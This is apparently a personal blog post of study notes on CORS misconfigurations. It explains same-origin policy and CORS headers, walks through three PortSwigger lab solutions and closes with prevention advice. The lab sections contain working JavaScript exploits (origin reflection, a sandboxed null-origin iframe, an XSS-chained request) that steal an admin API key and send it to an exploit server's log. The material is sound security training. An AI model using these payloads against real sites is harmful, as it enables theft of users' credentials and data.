

+++
title = 'Cross-Origin Resource Sharing (CORS)'
date = '2026-08-22T07:42:04+05:45'
draft = false
tags = []
featureimage = 'feature.png'
+++


---

## What is CORS?

Cross-origin resource sharing is a browser mechanism that allows controlled access to resources located outside of a given domain. It adds flexibility to the same origin policy. 

It provides potential for cross-domain attacks, if a websites CORS policy is poorly configured and implemented. It is not a protection against cross-origin attack such as CSRF.

---

## Same-origin policy:

The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. It generally allows a domain to issue requests to other domains, but not to access the responses.

---

## Relaxation of the same-origin policy:

The same-origin policy (SOP) is very restrictive, but many websites legitimately need cross-origin access , for example, to interact with subdomains or third-party services. To handle this, a controlled relaxation of SOP is achieved through Cross-Origin Resource Sharing (CORS). Instead of removing SOP entirely, CORS lets a server explicitly declare which origins it trusts, along with rules like whether authenticated (credentialed) access is allowed. This trust is established through a set of HTTP headers exchanged between the browser and the cross-origin server, and the browser enforces whatever the server permits.

**Key headers:**

- `Access-Control-Allow-Origin` → which origin(s) can access (specific domain or )
- `Access-Control-Allow-Credentials` → allow cookies/auth?
- `Access-Control-Allow-Methods` → allowed HTTP methods (GET, POST, etc.)
- `Access-Control-Allow-Headers` → allowed custom headers

---

## Vulnerabilities arising from CORS misconfiguration:

---

### Server-generated ACAO header from client-specified Origin header:

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

For example, consider an application that receives the following request:

```jsx
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It then responds with:

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

---

#### LAB: CORS Vulnerability with basic origin reflection:

[](https://portswigger.net/web-security/learning-paths/cors/cors-vulnerabilities-arising-from-cors-configuration-issues/cors/lab-basic-origin-reflection-attack)

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

Login to the give account and check for the following request:



The request lacks the header `Origin:` because it is loaded from the same-site. But we can glance the vulnerability from the response header `Access-Control-Allow-Credentials: true` 

So to check if it has CORS vulnerability we should add a Origin header and check if it is reflected in the response:


So this is vulnerable to the CORS Vulnerability because it reflects the Origin header without any validation:

Lets craft a XHR JavaScript exploit:

```html
<!doctype html>
<html>
  <head>
    <title>CORS Basic Exploit Reflection</title>
  </head>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open(
        "get",
        "https://0ae5008103ff83488156849400ca001a.web-security-academy.net/accountDetails",
        true,
      );
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location = "/log?key=" + this.responseText;
      }
    </script>
  </body>
</html>

```

Store this script in exploit server and then deliver the exploit to the victim and then look at the log there should be the admin api key.


This is url encoded. Decode and submit then the lab should be solved.


---

---

### Errors Parsing Origin Header:

Some application that support access from multiple origin do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:

```jsx
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```jsx
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com

```

Mistakes often arise when implementing CORS origin whitelists. Some of the organizations decide to allow access from all their subdomains (including future subdomain that doesn’t exists yet) and similarly some of the organization allow their partner organization domain and their subdomains included with future subdomains that doesn’t exists.\

---

### Whitelisted null origin value:

The specification for the Origin header supports the value `null` . Browser might send the value `null` in the Origin header in various unusual situations.

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sand-boxed cross-origin requests.

---

#### LAB: CORS vulnerability with trusted null origin:

[](https://portswigger.net/web-security/learning-paths/cors/cors-vulnerabilities-arising-from-cors-configuration-issues/cors/lab-null-origin-whitelisted-attack)

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

Login via the provided credentials. And look for the following request:


Send to the repeater and the lab says that it trusts the null origin so try by adding the `Origin: null` request header and check if it is reflected in ACAO:


`Origin: Null` is reflected in the ACAO so lets create a XHR JavaScript exploit.

The `Origin: Null` is not set via JavaScript it is set via browser behavior or sandboxed environment so we will create a sand boxed environment.

The following is the exploit is what I used:

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  srcdoc="
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://0a01008203420c0280e7174500e0001b.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location = '/log?key=' + this.responseText;
      }
    </script>
  </body>
</html>
"
></iframe>

```

Upload to the exploit server and deliver the exploit to the victim and the access the log then you should be able to see the admin api key.


The apikey is url encoded that needs to be decoded and submitted then the lab will be solved. 


---

### Exploiting XSS via CORS trust relationships:

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

```jsx
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

If the server responds with:

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

```jsx
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

---

### Breaking TLS with poorly configured CORS:

The main site is fully HTTPS, but it whitelists a trusted subdomain that runs on plain HTTP. Since HTTP is unencrypted, an attacker on the network can intercept traffic to that subdomain and inject malicious JavaScript into it. That script now runs with the subdomain's real origin, so when it calls the main site's API, the `Origin` header is genuinely trusted and matches the whitelist. The server responds with the credentials allowed, letting the attacker steal sensitive data (like the API key) using the victim's session. Fix: only whitelist `https://` origins, never `http://`.

---

#### LAB: CORS vulnerability with trusted insecure protocols:

[](https://portswigger.net/web-security/learning-paths/cors/cors-vulnerabilities-arising-from-cors-configuration-issues/cors/lab-breaking-https-attack)

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

Login with the give credentials. Check for the following request:


The response contains `Access-Control-Allow-Credentials` header suggesting that it may support CORS. 

Add `Origin: http://subdomain.LAB-ID` where Lab-ID is the domain name.

Observe that it allowed the CORS using the origin of the subdomain, it doesn’t check if the subdomain exists or not.

Open a product page and click on the check stock and observe that it is loading using HTTP URL on a subdomain. Observe that the `productID` parameter is vulnerable to XSS.

In the browser go to the exploit server and enter the following HTML script:

```jsx
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"

```

The script that I used is below:

```jsx
<script>
document.location="[http://stock.0ab400fc03901b4781b0a282005d0005.web-security-academy.net/?productId=4](http://stock.0ab400fc03901b4781b0a282005d0005.web-security-academy.net/?productId=4)<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','[https://0ab400fc03901b4781b0a282005d0005.web-security-academy.net/accountDetails](https://0ab400fc03901b4781b0a282005d0005.web-security-academy.net/accountDetails)',true); req.withCredentials = true;req.send();function reqListener() {location='[https://exploit-0a3f00de039f1b4581b8a1610191009c.exploit-server.net/log?key=](https://exploit-0a3f00de039f1b4581b8a1610191009c.exploit-server.net/log?key=)'%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Store the exploit and deliver the exploit to the victim and see the log.

You should be able to see the api key of the admin which is url encoded, So decode it and submit it and hence the lab will be submitted. 


---

### Intranets and CORS without credentials:

Most CORS attacks rely on the presence of the response header:

```jsx
Access-Control-Allow-Credentials: true
```

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. For example, a cross-origin request within a private network may be as follows:

```jsx
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```jsx
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

---

## How to prevent CORS-based attacks:

CORS vulnerabilities arise primarily as misconfigurations. Prevention is therefore a configuration problem. The following sections describe some effective defenses against CORS attacks.

### Proper Configuration of cross-origin requests:

If a web resource contains sensitive information, the origin should be properly specified in the `Access-Control-Allow-Origin` header.

### Only allow trusted sites:

It may seem obvious but origins specified in the `Access-Control-Allow-Origin` header should only be sites that are trusted. In particular, dynamically reflecting origins from cross-origin requests without validation is readily exploitable and should be avoided.

### Avoid whitelisting null:

Avoid using the header `Access-Control-Allow-Origin: null`. Cross-origin resource calls from internal documents and sandboxed requests can specify the `null` origin. CORS headers should be properly defined in respect of trusted origins for private and public servers.

### Avoid wildcards in internal networks:

Avoid using wildcards in internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.

### CORS is not a suitable for server-side security policies:

CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.

---